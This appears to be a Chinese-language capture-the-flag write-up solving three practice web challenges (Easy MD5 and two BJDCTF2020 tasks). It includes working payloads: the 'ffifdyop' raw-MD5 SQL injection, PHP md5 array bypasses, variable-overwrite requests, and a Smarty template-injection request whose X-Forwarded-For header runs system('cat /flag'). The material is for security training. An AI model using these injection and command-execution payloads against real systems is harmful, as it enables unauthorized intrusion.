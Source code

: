 # Easy MD5

打开题目就一输入框把我整懵了，输入了没反应，然后目录扫描无果，查看网页源代码没发现敏感文件

然后在响应头发现

> Hint: select * from 'admin' where password=md5($pass,true)

输入`ffifdyop`

这样拼接以后就是`"select * from 'admin' where password='' or'6蒥欓!r,b' "`

or后面的句子第一个字母是非0打头的数字符，比如为 ‘ 1abc ’ 或者 ‘ -1bde ’都会被认为是true

之后进入下一个页面，查看网页源代码得到关键代码，直接数组绕过

```
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->
```

```
http://ec1c5bb6-221c-4577-8d10-0bc84cb670d0.node3.buuoj.cn/levels91.php?a[]=1&b[]=2
```

之后post

```
param1[]=1&param2[]=2
```

## [BJDCTF2020]Mark loves cat

首先查看网页源代码在网页最下方发现了dog，尝试以get请求拼接，无果，额只能目录扫描看看有啥可利用的了

发现.git源码泄露，使用GitHack获取关键源码

```
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';
//变量覆盖
foreach($_POST as $x => $y){
    $$x = $y;
}
//变量覆盖
foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){ //如果GET传入的参数当中没有flag则进入循环
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}



echo "the flag is: ".$flag;
```

payload1：

```
flag2=11&yds=flag
```

payload2：和上面是等价的

```
yds=flag
```

在页面最下方获取到flag



# [BJDCTF2020]The mystery of ip

一开始没有任何思路，但是在ip那里通过修改`X-Forwarded-For`请求头实现了任意ip，加了单引号等不报错，尝试SSTI

`{{6*6}}`成功输出36，`{{1.__class__}}`看见报错`Smarty Compiler: Syntax error in template`

知道了是Smarty模板，发送下面的请求包获取flag

```
GET /flag.php HTTP/1.1
Host: node3.buuoj.cn:29070
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://node3.buuoj.cn:29070/hint.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
x-forwarded-for:{system('cat /flag')}
Cookie: UM_distinctid=176eeefef524b1-06a7c2cac68426-3323765-144000-176eeefef5397e
Connection: close
```



# 仓库地址

https://github.com/BjdsecCA/BJDCTF2020仓库地址，有空复现以下题目